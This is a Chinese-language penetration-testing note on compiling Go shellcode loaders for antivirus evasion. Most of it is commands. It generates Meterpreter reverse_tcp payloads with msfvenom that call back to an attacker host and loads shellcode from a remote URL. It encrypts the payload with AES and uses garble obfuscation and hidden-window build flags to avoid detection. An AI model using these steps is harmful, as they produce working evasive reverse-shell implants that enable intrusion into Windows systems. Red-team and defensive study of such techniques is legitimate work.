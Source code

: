 #### 直接编译
	生成
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f c
	代码转换成0x格式，粘贴到go.txt中保存为go格式
![image](/assets/Pentest_Note/master/img/97.png)
	
	安装golang环境在shellcode目录执行
	>go build生成exe
#### 编码编译
  	https://github.com/biggerduck/RedTeamNotes/blob/main/%E5%88%A9%E7%94%A8go%E5%8A%A0%E8%BD%BDshellcode%E5%85%8D%E6%9D%80.pdf
#### 加载器
##### go-shellcode
	https://github.com/brimstone/go-shellcode
	进入cmd/sc目录编译sc.exe
	>go build
![image](/assets/Pentest_Note/master/img/98.png)

	生成
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f hex -o shell.txt 
	加载器加载shellcode
	>sc.exe shellcode
![image](/assets/Pentest_Note/master/img/99.png)
##### Gsl
	https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/gsl-sc-loader.zip
	>gsl -s SHELLCODE -hex msf生成hex格式
	>gsl -f shell.raw本地加载raw格式文件
	>gsl -f shell.hex -hex 本地加载hex格式文件
	>gsl -u http://192.168.0.108/1.raw 远程加载
	>gsl -u http://192.168.0.108/1.hex
##### go-shellcode-loader
  	https://github.com/HZzz2/go-shellcode-loader
	>git clone https://github.com/HZzz2/go-shellcode-loader.git
	>cd go-shellcode-loader
	//下条命令安装第三方混淆库  GitHub地址：https://github.com/burrowers/garble
	>go install mvdan.cc/garble@latest   
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw
	>base64 -w 0 -i rev.raw > rev.bs64
	>cat rev.bs64
	复制到aes-sc.go中的51行替换payload
	运行aes-sc.go生成AES加密后的值
	>go run aes-sc.go
	复制输出的值到go-sc.go中的73行替换payload
	编译成exe可执行程序
	>garble -tiny -literals -seed=random build -ldflags="-w -s -H windowsgui" -race go-sc.go
	参数解释：
	garble(混淆库)：
	     -tiny                    删除额外信息
	     -literals               混淆文字
	     -seed=random   base64编码的随机种子 
	go：
	    -w                        去掉调试信息，不能gdb调试了
	    -s                         去掉符号表
	    -H windowsgui    隐藏执行窗口，不占用 cmd 终端。 （被查杀率高）
	    -race                    使数据允许竞争检测
	编译后得到go-sc.exe
